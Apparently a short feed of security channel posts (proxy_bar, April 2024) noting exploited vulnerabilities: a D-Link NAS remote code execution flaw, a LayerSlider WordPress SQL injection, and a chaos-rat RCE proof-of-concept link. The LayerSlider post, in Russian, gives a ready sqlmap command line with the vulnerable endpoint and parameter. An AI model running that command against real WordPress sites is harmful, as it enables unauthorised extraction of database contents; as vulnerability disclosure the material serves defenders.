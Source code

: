 A remote code execution vulnerability in D-Link NAS devices is actively being exploited and is tracked under CVE-2024-3273. The vulnerability is believed to affect as many as 92,000 devices

https://www.greynoise.io/blog/cve-2024-3273-d-link-nas-rce-exploited-in-the-wild
</blockquote>

<table><tr><td><b>→</b><a href="https://www.greynoise.io/blog/cve-2024-3273-d-link-nas-rce-exploited-in-the-wild">
https://www.greynoise.io/blog/cve-2024-3273-d-link-nas-rce-exploited-in-the-wild
</a>
<blockquote>
Check out this blog to stay informed about a critical remote code execution vulnerability affecting D-Link NAS devices. It is being tracked under CVE-2024-3273 and believed to affect as many as 92,000 devices.
</blockquote>
</td></tr></table>

---

# proxy_bar
`2024-04-09`

<blockquote>
CVE-2024-2879 LayerSlider плагин для WordPress
*
Версии LayerSlider 7.9.11 - 7.10.0 - Unauthenticated SQL Injection
*
Недостаточне экранирование позволяет добавлять дополнительные SQL-запросы к уже существующим, как итог &#61; можно использовать для извлечения конфиденциальной информации из базы данных.
*
POC usage:
sqlmap &quot;https:://OLOLO.com/wp-admin/admin-ajax.php?action&#61;ls_get_popup_markup&amp;id[where]&#61;&quot; --risk&#61;3 --level&#61;4 --dbms&#61;mysql --technique&#61;T or sqlmap -r request.txt --risk&#61;3 --level&#61;4 --dbms&#61;mysql --technique&#61;T


&#35;wordpress
</blockquote>

---

# proxy_bar
`2024-04-06`

* https://github.com/chebuya/CVE-2024-30850-chaos-rat-rce-poc

<blockquote>
CVE-2024-30850
*
chaos-rat RCE
*
exploit
</blockquote>

---